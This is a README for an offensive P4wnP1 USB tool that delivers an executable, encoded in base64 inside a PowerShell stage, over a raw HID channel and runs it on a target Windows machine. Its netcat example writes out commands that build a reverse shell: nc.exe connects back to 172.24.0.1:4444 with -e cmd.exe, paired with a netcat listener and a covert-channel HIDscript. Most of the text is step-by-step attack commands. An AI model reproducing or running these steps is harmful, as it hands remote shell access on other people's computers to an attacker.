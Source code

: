 # Deliver and Execute

## Description

Use P4wnP1 RAW HID channel to deliver and execute an Executable file using poershell

The **DeliverAndExec.py** Takes an Executable file, convert it to base64 and creates the powershell payload **Stage2.ps1** which will be delivered to the target machine via P4wnP1 RAW HID channel.

## Instructions (NETCAT Example)

- Using the P4wnP1 web interface set P4wnP1 as Keyboard and RAW HID
- SSH to P4wnP1 AP IP address
- Copy DeliverAndExec.py to ```/usr/local/P4wnP1/legacy/```
- Generate a payload: ```python DeliverAndExec.py /usr/share/windows-binaries/nc.exe out.exe "172.24.0.1 4444 -e cmd.exe"```
- Make sure the **Stage2.ps1** file is in the ```/usr/local/P4wnP1/legacy/``` directory
- Start the RAW HID Listener nad netcat listener
  - You can use the **DeliverAndExec.sh**  which will start the RAW HID listener, netcat listener and execute the wifi_covert_channel.js hidscript (made for the netcat example) or do it manually:
  - ```hidraw=$(P4wnP1_cli usb get device raw)```
  - ```python  /usr/local/P4wnP1/legacy/hidstager.py -s -i  /usr/local/P4wnP1/legacy/Stage2.ps1 -o $hidraw &```
  - ```netcat -lvp 4444```

- Using the P4wnP1 web interface Execute the **wifi_covert_channel.js** HIDscript
